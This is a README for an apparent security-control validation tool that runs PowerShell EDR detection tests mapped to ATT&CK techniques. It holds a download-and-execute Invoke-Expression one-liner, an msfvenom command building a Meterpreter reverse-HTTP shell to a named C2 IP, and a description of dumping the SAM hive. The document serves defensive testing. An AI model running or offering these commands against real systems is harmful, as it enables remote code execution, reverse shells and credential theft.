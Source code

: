 # ResponseValidation
```
                                                                                 @@@      
                                                                              @@@ @ @@@@  
                                                                            @@@ @ @@@ @   
                                                                         @@@@ @@@@ @  @@@ 
                                                                      /@@@ @@@@  @@@@@ @  
                                                                   #@@. @@@@ @@@@@ &@     
                                                                @@@@@@@@  @@@   @@@@@@&   
                                                             @@@@@@@@@@@@  @@@@@@ @@      
                                                          @@@@@@@@@@@@@@@@   @@@@@@       
                                                       @@@@@@@@@@@@@ %@@@@@   @@          
                                   @@               @@@@    @@@@@@@@   @@@@@@@.@          
                              @@@@ @@@@          @@@@       @@@@@@@@      @@              
                           @@@     @@@@@@      @@@@       @@@@@@@@@@@@  @                 
                        @@@@            @@@   @@@       @@@@@@@@@@@@@@ @                  
                        @@               @@@ @@@       @@@@@@@  @@@@                      
                         @@              @@@@@@      @@@@@@@@@@  @@                       
                          @@              @@@@      @@@@@@@@@@@@                          
                           @(          /@@@        @@@@@    @                             
                           @@       @@@@          @@@@@@@@ @                              
                           @ @@@@@@@#             /@@@@@@@                                
                         @@@@@@@                    @@@@ @                                
                       @  @@@@@                       @@@@                                
                     @  @@@@             @@/            @@@@@@                            
                    @ %@@ @@  @@@@@@@@,   @@         ,@@@@@@@@@@@@@@@@@@@@@@@@@@@         
                     @ @@         @@@@@  @@@@@@@@@@@  ,@@@@@@@@@@@@,@@% ,@@@@@@@          
                      @           @@@@@ @@                  &@@& @@  @@@@@@               
                                 @@@@@@@*                                                 
                                @@@ @@           TRIFIDENT VALIDATION        
                             @@   @              - POWERSHELL TESTS -    
                         @@ @@@@@                                                         
                             @        
```

# DO NOT RUN WITHOUT EXPRESSED CONSENT FROM TRIFIDENT
To execute, simply run the following command from a machine with PowerShell installed (Windows / MacOS)
```
Invoke-Expression (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/TRIFIDENT/ResponseValidation/main/RunTests.ps1").Content
```

## What does this Tool Do?
Runs a series of validation checks on the local machine to serve as proof-points for our assessment and are based on the identification of implemented security controls, where we attempt to validate these controls are working as intended. This is not a penetration test, rather a validation that security controls are working properly, and where possible, to test incident communications between providers and response times.

The Following test will be performed:

## Validate EDR Detection and Response:
### T1204.002 : User Execution: Malicious File

> Defanged malicious .lnk file
> Generated by RedCanary as part of the Atomic Red Team framework. All code available for review on their Github Page [Link].  Trifident has reviewed the resulting putty and confirmed it is non-malicious.
> 	
> LNK files are based on the Shell Link Binary file format, also known as Windows shortcuts. But what seems a relatively simple ability to execute other binaries on the system can inflict great harm when abused by threat actors. Microsoft’s decision to block macros by default for files downloaded from the internet in Office applications provoked malware developers to shift to other techniques. 
> 
> This test downloads a crafted .lnk file from github, and then attempts to execute it. When executed, the .lnk file attempts to download a clean copy of Putty (a windows based ssh client) as “a.exe” and attempts to execute it. 
> 
> Expected Outcome: EDR detects, alerts, and quarantines the LNK file, however Putty still executes.


### T1204.002 : User Execution: Malicious File
> Defanged Malware: Meterpreter
>  
> Generated by Trifident, using the following command: 
> msfvenom -p windows/meterpreter_reverse_http LHOST=172.174.245.183 LPORT=9191 HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe
> 
> Meterpreter is a Metasploit attack payload that provides an interactive shell to the attacker from which to explore the target machine and execute code. Meterpreter is deployed using in-memory DLL injection. As a result, Meterpreter resides entirely in memory and writes nothing to disk. It communicates over the stager socket and provides a comprehensive client-side Ruby API. It features command history, tab completion, channels, and more.
> 
> Shell.exe attempts to shovel a meterpreter shell from the host machine to a Trifident owned C2 server over HTTP (port 9191) located in Azure at the IP address of 172.174.245.183.  The C2 meterpreter listener is disabled by default on our C2 server. If execution succeeds, the C2 channel will not be established. If you would like to validate the C2 server is non-operational prior to execution, you can perform the following test:
> nmap -p 9191 172.174.245.183
> *Note: Other ports may be open as this C2 server is used for multiple engagements.
> 
> Expected Outcome: SentinelOne detects, alerts, and quarantines shell.exe without execution.


### T1003.002 : OS Credential Dumping: Security Account Manager
> This test uses the LOLbin “reg” (more info) to attempt to dump the SAM registry hive to a temp file location. This technique is known by attackers to retrieve password hashes and key material. 
> 
> Expected Outcome: SentinelOne detects, alerts, and prevents execution.

### Capture notification evidence
> The script will note the time each test was executed. Please take screenshots of any emails, phone calls, text messages, or any other contact method used by the MSSP vendor. 
> For any tickets that are opened, assigned, or you are notified of, please respond indicating that this was as a result of ongoing security testing, and that the ticket can be closed. 

### Clean Up
> All files downloaded, installed, or created by this script will be automatically removed at completion


